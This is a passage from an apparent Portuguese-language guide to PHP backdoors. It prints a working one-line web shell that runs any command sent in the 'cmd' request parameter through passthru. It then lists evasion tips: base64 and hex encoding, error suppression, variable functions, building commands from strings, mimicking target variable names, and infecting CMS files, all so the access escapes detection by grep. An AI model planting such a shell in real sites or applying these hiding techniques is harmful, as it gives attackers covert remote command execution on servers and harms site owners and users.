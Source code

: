**passthru**
```php
if(isset($_REQUEST['cmd'])){passthru($_REQUEST['cmd']);}
```

### Next Level / Saindo da Caixinha

Podemos usar as mesmas funções listadas acima, porém de forma mais elaborada, evitando que um simples `grep -E` revele nosso acesso.
Explorar o ferramental e a maleabilidade de formatação do código PHP traz uma poderosa forma de criar backdoor. 

### Dicas

- Uso de `shellcode` em valores fixos.
- Uso de supressor de erros em functions `@`.
  - Exemplo: `@functionX($var)`
- Evite executar diretamente o comando malicioso, use `strings`, `arrays` para montar suas funções e comandos.
- `Array` é vida! use para receber e geranciar valores.
- Entenda que parametros de request $_GET, $_POST são um array e pode acessar acessados via key.
  - Exemplo `$_GET[0]`, `$_POST[0]`
- Concatenação de functions nativas & definição de variáveis.
  - Exemplo: `$var1.$var2`, `($var1).($var2)`, `(functionX()).(functionY($var))`
- base64_decode – `encode(data)`, `bin2hex`, `error_reporting(0)`.
- Use requests (`get or post`) que já existam no sistema.
- Estude a criação de propriedades maliciosas em `class’s` do sistema, crie suas functions.
- Se conhecer algo do sistema alvo use variáveis semelhantes ao do target.
- Manuseio de valores da variável global `$_SERVER`.
- Estude métodos de infeção para arquivos CMS’s feitos em PHP.
- Execute suas funções usando a técnica de `variável function`.
  - Exemplo: `$var='system';$var('id');`
  
---

### Supressor duplo

O PHP suporta um operador de controle de erro: o sinal 'arroba' (`@`). Quando ele precede uma expressão em PHP, qualquer mensagem de erro que possa ser gerada por aquela expressão será ignorada. é possivel usar tal sinal antes de funções ou variável.

